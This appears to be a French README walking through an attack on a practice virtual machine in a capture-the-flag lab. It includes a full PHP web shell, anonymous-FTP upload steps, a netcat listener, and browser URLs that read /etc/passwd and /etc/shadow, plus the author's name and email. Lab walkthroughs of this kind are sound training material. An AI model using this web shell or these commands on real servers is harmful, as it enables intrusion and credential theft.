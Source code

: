 
# télécharger
```01-Local1.ova```

# mettez ceci 
```sha1sum 01-Local1.ova``` pour vérifier le hash

# et regardez si le résultat est
```f3422f3364fd38e8183740f8f57fa951d3f6e0bf```

# installer virtualbox si ce n'est pas encore fait
```sudo apt update && sudo apt install -y virtualbox```

# assure toi d'avoir les outils nécessaires
```sudo apt update && sudo apt install -y net-tools nmap john hydra metasploit-framework```

# double clic sur ```01-Local1.ova```

# donnez 4096MB comme RAM (pour renforcer la machine virtuelle)
au lieu de de 512

# Changez l'adapter en NAT
au lieu de Bridge

# assure toi que la machine virtuelle
soit activée

# mettez ceci
nmap -sn 192.168.1.0/24

# sélectionnez l'adresse de la VM et mettez ceci
nmap -A ```adresse```

# se connecter
se connecter et examiner les fichiers trouvés

# créer webshell.php et y mettre ceci:
```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    $cmd = ($_GET['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
```

# mettre ceci
ftp 192.168.1.26
login: anonymous
pwd: Entrée (le bouton)

# téléverser le fichier
```put webshell.php```

# éxécuter ceci dans un terminal
nc -lvnp 4444

# mettre ceci dans le navigateur:
- http://ADRESSE_IP_VM/files/webshell.php?cmd=cat%20/etc/passwd
- http://192.168.1.26/files/webshell.php?cmd=ls%20-l%20/etc/shadow
- http://192.168.1.26/files/webshell.php?cmd=cat%20/var/backups/apt.extended_states.1.gz

# username
shrek

# password
not yet

# developer
- Prénom NOM: Mouhamed DIOUF
- email: seydiahmedelcheikh@gmail.com

-----------------------------------------------------------------------------------------------------

# link for kali
https://www.youtube.com/watch?v=B7wCf0JiOcM&list=PLZEN0mW2CQl38fx0wtv53VEmn5CKJIrLA